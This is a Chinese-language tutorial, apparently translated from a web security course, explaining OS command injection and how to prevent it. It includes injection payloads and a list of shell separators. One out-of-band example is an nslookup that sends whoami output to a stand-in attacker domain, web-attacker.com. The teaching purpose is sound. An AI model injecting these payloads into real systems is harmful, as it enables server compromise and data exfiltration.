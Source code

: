 # OS command injection

在本节中，我们将解释什么是操作系统命令注入，描述如何检测和利用此漏洞，为不同的操作系统阐明一些有用的命令和技术，并总结如何防止操作系统命令注入。

![os command injection](https://raw.githubusercontent.com/RifeWang/images/master/web-security/os-command-injection.png)


## 什么是操作系统命令注入

OS 命令注入（也称为 shell 注入）是一个 web 安全漏洞，它允许攻击者在运行应用程序的服务器上执行任意的操作系统命令，这通常会对应用程序及其所有数据造成严重危害。并且，攻击者也常常利用此漏洞危害基础设施中的其他部分，利用信任关系攻击组织内的其他系统。


## 执行任意命令

假设某个购物应用程序允许用户查看某个商品在特定商店中是否有库存，此信息可以通过以下 URL 获取：
```
https://insecure-website.com/stockStatus?productID=381&storeID=29
```

为了提供返回信息，应用程序必须查询各种遗留系统。由于历史原因，此功能通过调用 shell 命令并传递参数来实现如下：
```
stockreport.pl 381 29
```

此命令输出特定商店中某个商品的库存信息，并将其返回给用户。

由于应用程序没有对 OS 命令注入进行防御，那么攻击者可以提交类似以下输入来执行任意命令：
```
& echo aiwefwlguh &
```

如果这个输入被当作 productID 参数，那么应用程序执行的命令就是：
```
stockreport.pl & echo aiwefwlguh & 29
```

`echo` 命令就是让提供的字符串在输出中显示的作用，其是测试某些 OS 命令注入的有效方法。`&` 符号就是一个 shell 命令分隔符，因此上例实际执行的是一个接一个的三个单独的命令。因此，返回给用户的输出为：
```
Error - productID was not provided
aiwefwlguh
29: command not found
```

这三行输出表明：
- 原来的 `stockreport.pl` 命令由于没有收到预期的参数，因此返回错误信息。
- 注入的 `echo` 命令执行成功。
- 原始的参数 29 被当成了命令执行，也导致了异常。

将命令分隔符 `&` 放在注入命令之后通常是有用的，因为它会将注入的命令与注入点后面的命令分开，这减少了随后发生的事情将阻止注入命令执行的可能性。


## 常用的命令

当你识别 OS 命令注入漏洞时，执行一些初始命令以获取有关系统信息通常很有用。下面是一些在 Linux 和 Windows 平台上常用命令的摘要：

|  命令含义   |  Linux  |   Windows  |
| :-- | :-- | :-- |
|  显示当前用户名   |   whoami   |  whoami   |
|  显示操作系统信息   |   uname -a   |  ver   |
|  显示网络配置   |   ifconfig   |  ipconfig /all   |
|  显示网络连接   |   netstat -an  |  netstat -an   |
|  显示正在运行的进程   |   ps -ef   |  tasklist   |



## 不可见 OS 命令注入漏洞

许多 OS 命令注入漏洞都是不可见的，这意味着应用程序不会在其 HTTP 响应中返回命令的输出。 不可见 OS 命令注入漏洞仍然可以被利用，但需要不同的技术。

假设某个 web 站点允许用户提交反馈信息，用户输入他们的电子邮件地址和反馈信息，然后服务端生成一封包含反馈信息的电子邮件投递给网站管理员。为此，服务端需要调用 mail 程序，如下：
```
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

mail 命令的输出并没有作为应用程序的响应返回，因此使用 echo 负载不会有效。这种情况，你可以使用一些其他的技术来检测漏洞。


### 基于延时检测

你可以使用能触发延时的注入命令，然后根据应用程序的响应时长来判断注入的命令是否被执行。使用 `ping` 命令是一种有效的方式，因为此命令允许你指定要发送的 ICMP 包的数量以及命令运行的时间：
```
& ping -c 10 127.0.0.1 &
```

这个命令将会 ping 10 秒钟。


### 重定向输出

你可以将注入命令的输出重定向到能够使用浏览器访问到的 web 目录。例如，应用程序使用 /var/www/static 路径作为静态资源目录，那么你可以提交以下输入：
```
& whoami > /var/www/static/whoami.txt &
```

`>` 符号就是输出重定向的意思，上面这个命令就是把 whoami 的执行结果输出到 /var/www/static/whoami.txt 文件中，然后你就可以通过浏览器访问 `https://vulnerable-website.com/whoami.txt` 查看命令的输出结果。


### 使用 OAST 技术

使用 OAST 带外技术就是你要有一个自己控制的外部系统，然后注入命令执行，触发与你控制的系统的交互。例如：
```
& nslookup kgji2ohoyw.web-attacker.com &
```

这个负载使用 `nslookup` 命令对指定域名进行 DNS 查找，攻击者可以监视是否发生了指定的查找，从而检测命令是否成功注入执行。

带外通道还提供了一种简单的方式将注入命令的输出传递出来，例如：
```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

这将导致对攻击者控制的域名的 DNS 查找，如：
```
wwwuser.kgji2ohoyw.web-attacker.com
```


## 注入 OS 命令的方法

各种 shell 元字符都可以用于执行 OS 命令注入攻击。

许多字符用作命令分隔符，从而将多个命令连接在一起。以下分隔符在 Windows 和 Unix 类系统上均可使用：
- `&`
- `&&`
- `|`
- `||`

以下命令分隔符仅适用于 Unix 类系统：
- `;`
- 换行符（`0x0a` 或 `\n`）

在 Unix 类系统上，还可以使用 <code>`</code> 反引号和 <code>$</code> 符号在原始命令内注入命令内联执行：
- <code>`</code>
- `$`


需要注意的是，不同的 shell 元字符具有细微不同的行为，这些行为可能会影响它们在某些情况下是否工作，以及它们是否允许在带内检索命令输出，或者只对不可见 OS 利用有效。

有时，你控制的输入会出现在原始命令中的引号内。在这种情况下，您需要在使用合适的 shell 元字符注入新命令之前终止引用的上下文（使用 `"` 或 <code>'</code>）。


## 如何防御 OS 命令注入攻击

防止 OS 命令注入攻击最有效的方法就是永远不要从应用层代码中调用 OS 命令。几乎在对于所有情况下，都有使用更安全的平台 API 来实现所需功能的替代方法。

如果认为使用用户提供的输入调用 OS 命令是不可避免的，那么必须执行严格的输入验证。有效验证的一些例子包括：
- 根据允许值的白名单校验。
- 验证输入是否为数字。
- 验证输入是否只包含字母数字字符，不包含其它语法或空格。

不要试图通过转义 shell 元字符来清理输入。实际上，这太容易出错，且很容易被熟练的攻击者绕过。